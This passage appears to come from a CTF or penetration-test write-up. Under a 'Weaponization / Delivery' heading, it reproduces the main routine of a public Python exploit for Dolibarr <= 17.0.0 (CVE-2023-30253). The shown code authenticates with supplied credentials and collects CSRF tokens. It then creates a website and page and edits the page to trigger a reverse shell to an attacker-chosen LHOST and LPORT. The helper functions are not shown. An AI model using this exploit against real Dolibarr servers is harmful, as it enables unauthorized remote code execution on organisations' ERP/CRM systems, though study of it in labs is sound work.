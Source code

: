 ### Weaponization (done for us)/ Delivery

For brevity, I'm just going to show the main method:

from: https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/blob/main/exploit.py

``` python
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description="---[Reverse Shell Exploit for Dolibarr <= 17.0.0 (CVE-2023-30253)]---", usage= "python3 exploit.py <TARGET_HOSTNAME> <USERNAME> <PASSWORD> <LHOST> <LPORT>\r\nexample: python3 exploit.py http://example.com login password 127.0.0.1 9001")
    parser.add_argument("hostname", help="Target hostname")
    parser.add_argument("username", help="Username of Dolibarr ERP/CRM")
    parser.add_argument("password", help="Password of Dolibarr ERP/CRM")
    parser.add_argument("lhost", help="Listening host for reverse shell")
    parser.add_argument("lport", help="Listening port for reverse shell")

    args = parser.parse_args()
    min_required_args = 5
    if len(vars(args)) != min_required_args:
        parser.print_usage()
        exit()

    site_name = str(uuid.uuid4()).replace("-","")[:10]
    base_url = args.hostname + "/index.php"
    auth_url = args.hostname + "/index.php?mainmenu=home"
    admin_url = args.hostname + "/admin/index.php?mainmenu=home&leftmenu=setup&mesg=setupnotcomplete"
    call_reverse_shell_url = args.hostname + "/public/website/index.php?website=" + site_name + "&pageref=" + site_name

    pre_login_token = get_csrf_token(base_url, auth_headers)

    if pre_login_token == "":
        print("[!] Cannot get pre_login_token, please check the URL") 
        exit()

    print("[*] Trying authentication...")
    print("[**] Login: " + args.username)
    print("[**] Password: " + args.password)

    auth(pre_login_token, args.username, args.password, auth_url, auth_headers)
    time.sleep(1)

    login_token = get_csrf_token(admin_url, auth_headers)

    if login_token == "":
        print("[!] Cannot get login_token, please check the URL") 
        exit()

    http_connection = http.client.HTTPConnection(remove_http_prefix(args.hostname))

    print("[*] Trying created site...")
    create_site(args.hostname, login_token, site_name, http_connection)
    time.sleep(1)

    print("[*] Trying created page...")
    create_page(args.hostname, login_token, site_name, http_connection)
    time.sleep(1)

    print("[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection")
    edit_page(args.hostname, login_token, site_name, args.lhost, args.lport, http_connection)

```